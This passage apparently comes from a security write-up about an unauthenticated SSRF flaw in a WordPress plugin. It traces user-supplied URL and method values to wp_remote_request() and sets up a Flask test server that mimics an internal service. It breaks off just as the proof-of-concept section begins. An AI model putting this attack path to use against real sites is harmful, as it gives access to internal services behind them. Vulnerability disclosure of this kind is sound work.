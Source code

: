 `request()` builds the query and sends the request using `wp_remote_request()` — the primary **SSRF sink**.

### Flow

{{< mermaid >}}
graph TD
A["HTTP Request"] --> B["admin_post_nopriv_{action}"]
B --> C["$request->get('args.url') / $request->get('args.method')"]
C --> D["$client->{$requestMethod}('', $params)"]
D --> E["Client::__call() → request() → wp_remote_request() ← SSRF sink"]
E --> F["Response → callback → HTTP Response"]
{{< /mermaid >}}

## Exploit

### Local Server

Create a simple local service with Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request with the URL pointing to the local service:
